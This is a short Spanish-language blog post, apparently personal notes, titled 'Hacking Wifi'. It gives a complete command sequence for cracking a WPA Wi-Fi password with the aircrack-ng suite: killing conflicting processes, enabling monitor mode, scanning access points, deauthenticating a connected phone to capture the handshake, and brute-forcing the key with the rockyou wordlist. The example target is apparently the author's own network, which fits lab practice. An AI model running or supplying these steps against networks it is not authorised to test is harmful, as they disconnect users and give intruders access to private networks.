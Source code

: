 ```yaml
---
layout: post
title: Hacking Wifi
date: 2024-04-06 12:24:23 
category: sample
vm: linux
---
```


### **1)** Vemos nuestra interfaz de red wifi
```
     iwconfig 
```
![iwconfig](/notas/public/img/hwifi/iwconfig.png)

<br>

### **2)** Le cambiamos el ESSID para no complicarnos
```
    sudo ip link set dev wlxb4b0240921e2 name wlan0

    iwconfig 
```
 ![essid](/notas/public/img/hwifi/essid_modify.png)

<br>

### **3)** Eliminamos procesos 'conflictivos'
```
    sudo airmon-ng check kill
```
![kill](/notas/public/img/hwifi/kill_process.png)


<br>

### **4)** Iniciamos el modo monitor
```
    sudo airmon-ng start wlan0
```
![start](/notas/public/img/hwifi/start_mode.png)

_> El nombre de nuestra interface puede variar, en este caso se mantiene._

<br>

### **5)** Escuchamos los Puntos de Acceso (AP)
```
    sudo airodump-ng wlan0
```
![listen](/notas/public/img/hwifi/listen_wifi.png)

- **Mi_wifi** _AP victima_
    - **FC:A6:21:D5:D8:17** - Mac
    - **11** - Canal 


<br>

### **6)** Vemos los dispositivos del AP objetivo
```
    sudo airodump-ng -c 11 --bssid FC:A6:21:D5:D8:17 -w save_prueba wlan0
```
![devices](/notas/public/img/hwifi/devices_wifi.png)

_En este caso hay un dispositivo movil conectado._

- **44:6D:6C:35:40:DB** - Mac del Dispositivo dentro del AP Mi_Wifi

<br>

### **7)** Desautenticamos al usuario del punto de acceso
```
    sudo aireplay-ng --deauth 5 -a FC:A6:21:D5:D8:17 -c 44:6D:6C:35:40:DB wlan0
```
![handshake](/notas/public/img/hwifi/handshake.png)

_Tenemos el handshake, donde viaja 'la contraseña cifrada'_

- Listamos el reporte:

```
    ls
```

![cap](/notas/public/img/hwifi/save_cap.png)

<br>

### **8)** Aplicamos fuerza bruta para obtener la contraseña
```
    sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b FC:A6:21:D5:D8:17 save_prueba-01.cap
```
![key](/notas/public/img/hwifi/key.png)

